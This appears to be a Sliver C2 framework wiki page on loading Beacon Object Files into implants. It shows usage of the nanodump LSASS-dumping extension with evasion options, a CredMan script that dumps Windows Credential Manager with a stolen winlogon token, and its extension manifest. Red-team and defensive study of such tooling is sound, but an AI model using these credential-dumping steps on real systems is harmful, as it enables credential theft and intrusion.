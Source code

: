 Sliver v1.5 and later support the loading and execution of BOFs and COFFs, generally no code changes are needed to use BOFs with a Sliver implant. However, you may need to define a manifest file so that Sliver is aware of BOF arguments and their types.

### BOF Extensions

BOF support is provided via the [COFF Loader](https://github.com/sliverarmory/COFFLoader) extension, you'll need it installed to run pretty much any BOF. However, the COFF Loader will be install automatically if you install a BOF extension from the [armory](https://github.com/BishopFox/sliver/wiki/Armory). 

The easiest way to install a BOF extension, for example [`nanodump`](https://github.com/sliverarmory/nanodump), is using the [armory](https://github.com/BishopFox/sliver/wiki/Armory) package manager:

__IMPORTANT:__ BOF Extensions are installed per-sliver client, they are not stored on the server. Thus extensions are not shared across operators, each operator must install the extension to use it.

```
sliver > armory install nanodump

[*] Installing extension 'nanodump' (v0.0.5) ... done!

sliver > nanodump -h

A Beacon Object File that creates a minidump of the LSASS process.

Usage:
======
  nanodump [flags] pid dump-name write-file signature

Args:
=====
  pid         int       The PID of the process you want to dump.
  dump-name   string    The name of the dump file.
  write-file  int       1 = write file, 0 = fileless
  signature   string    Signature used for evasion, PMDM = default

Flags:
======
  -h, --help           display help
  -s, --save           Save output to disk
  -t, --timeout int    command timeout in seconds (default: 60)
```

### Converting BOFs to Sliver

Converting existing BOFs to work with Sliver is usually pretty easy, and shouldn't require any code changes. You'll need to define an `extension.json` though based on what arguments/etc. the BOF accepts. 

To determine the arguments a BOF accepts and their types, you'll need to read `.cna` script that accompanies a given BOF. For example, the [CredMan](https://github.com/sliverarmory/CredManBOF/blob/main/CredMan.cna) `.cna` script is show below:

```
alias CredMan {
	local('$handle $data $args $2');

    if(size(@_) != 3){
        berror($1, "CredMan: not enough arguments,Usage: CredMan [user process id] ");
        return;
    }

    $handle = openf(script_resource("CredMan.o"));
    $data   = readb($handle, -1);
    closef($handle)

    $args = bof_pack($1,"i",$2);

    btask($1, "Running CredMan");


    beacon_inline_execute($1,$data,"go",$args);
}

beacon_command_register(
"CredMan",
"Enables SeTrustedCredManAccess Privilege in a token stolen from winlogon.exe to dump Windows Credential Manager");
```

Looking at the script we can see the BOF requires a single integer argument. The corresponding Sliver `extension.json` file is shown below. Note that BOFs will always rely on the `coff-loader` extension but other kinds of extensions may not.

```json
{
    "name": "credman",
    "version": "1.0.0",
    "command_name": "credman",
    "extension_author": "lesnuages",
    "original_author": "jsecu",
    "repo_url": "https://github.com/sliverarmory/CredManBOF",
    "help": "Dump credentials using the CredsBackupCredentials API",
    "depends_on": "coff-loader",
    "entrypoint": "go",
    "files": [
        {
            "os": "windows",
            "arch": "amd64",
            "path": "credman.x64.o"
        },
        {
            "os": "windows",
            "arch": "386",
            "path": "credman.x86.o"
        }
    ],
    "arguments": [
        {
            "name": "pid",
            "desc": "PID of a process started by the target user",
            "type": "int",
            "optional": false
        }
    ]
}
```

The `coff-loader` extension can be installed using `armory install coff-loader`